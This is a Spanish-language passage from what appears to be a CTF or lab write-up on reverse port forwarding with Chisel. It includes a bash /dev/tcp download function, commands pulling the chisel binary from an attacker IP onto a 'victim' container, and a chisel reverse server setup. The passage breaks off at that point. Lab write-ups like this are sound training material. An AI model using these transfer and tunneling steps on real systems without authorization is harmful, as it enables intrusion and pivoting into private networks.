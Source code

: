 
Para poder ver lo que hay debajo estos puerto podemos lanzar un reverse port forwarding.

### Reverse Port Forwarding con Chisel {-}

Instalamos y configuramos **Chisel**.

1. Descarga de chisel y build

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-w -s" .
    upx chisel
    chmod +x chisel
    ```

1. Enviamos chisel a la maquina victima

    Como el contenedor no tiene curl instalado tratamos de crear una funccion curl.

    ```bash
    function __curl() {
        read proto server path <<<$(echo ${1//// })
        DOC=/${path// //}
        HOST=${server//:*}
        PORT=${server//*:}
        [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

        exec 3<>/dev/tcp/${HOST}/$PORT
        echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
        (while read line; do
        [[ "$line" == $'\r' ]] && break
        done && cat) <&3
        exec 3>&-
    }
    ```

    - en la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        cd /tmp
        __curl http://10.10.14.29/chisel > chisel
        chmod +x chisel
        ```

1. En la maquina de atacante creamos un servidor 

    ```bash
    ./chisel server --reverse -p 1234
    ```
